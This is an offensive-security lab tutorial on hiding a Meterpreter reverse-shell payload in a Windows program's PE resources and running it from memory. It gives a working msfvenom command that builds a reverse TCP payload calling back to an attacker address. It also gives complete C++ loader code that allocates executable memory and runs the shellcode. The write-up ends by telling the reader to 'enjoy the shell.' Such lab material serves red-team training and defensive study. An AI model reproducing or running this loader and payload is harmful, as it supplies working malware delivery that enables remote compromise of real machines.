# Loading and Executing Shellcode From PE Resources

## Context

This lab shows one of the techniques how one could load and execute a non-staged shellcode from within a C program using PE resources using Visual Studio.

If you've ever tried executing an unstaged shellcode from a C/C++ program, you know that you will be having a hard time doing it if you are defining a huge char array which looks like this \(just a snippet\):

![](../../.gitbook/assets/screenshot-from-2019-04-21-12-33-31%20%281%29.png)

Below is a quick walkthrough that was inspired by [@\_RastaMouse](https://twitter.com/_RastaMouse) tweet:

![](../../.gitbook/assets/screenshot-from-2019-04-21-13-13-14.png)

## Embedding The Shellcode as a Resource

Let's generate a non-staged meterpreter payload in binary format first. This will be our resource that we want to embed into our C++ program:

```csharp
msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.0.0.5 LPORT=443 > meterpreter.bin
```

Right click on the `Resource Files` in Solution Explorer and select `Add > Resource`

![](../../.gitbook/assets/screenshot-from-2019-04-21-12-37-31.png)

Click `Import` and select the resource you want to include. In my case - it's the `meterpreter.bin`:

![](../../.gitbook/assets/screenshot-from-2019-04-21-11-42-31.png)

Give resource a resource type name - anything works, but you need to remember it when calling `FindResource` API call \(shown later in the code\):

![](../../.gitbook/assets/screenshot-from-2019-04-21-11-43-59.png)

At this point, you can see in your resource browser that the `meterpreter.bin` is now included in your program's resources:

![](../../.gitbook/assets/screenshot-from-2019-04-21-11-45-49.png)

![](../../.gitbook/assets/screenshot-from-2019-04-21-12-07-17.png)

## Code

We can then leverage a small set of self-explanatory Windows APIs to find the embedded resource, load it into memory and execute it like so:

```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>
#include "resource.h"

int main()
{
	// IDR_METERPRETER_BIN1 - is the resource ID - which contains ths shellcode
	// METERPRETER_BIN is the resource type name we chose earlier when embedding the meterpreter.bin
	HRSRC shellcodeResource = FindResource(NULL, MAKEINTRESOURCE(IDR_METERPRETER_BIN1), L"METERPRETER_BIN");
	DWORD shellcodeSize = SizeofResource(NULL, shellcodeResource);
	HGLOBAL shellcodeResouceData = LoadResource(NULL, shellcodeResource);
	
	void *exec = VirtualAlloc(0, shellcodeSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(exec, shellcodeResouceData, shellcodeSize);
	((void(*)())exec)();

	return  0;
}
```

Compile and run the binary and enjoy the shell:

![](../../.gitbook/assets/peek-2019-04-21-12-30.gif)

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/menurc/finding-and-loading-resources" %}

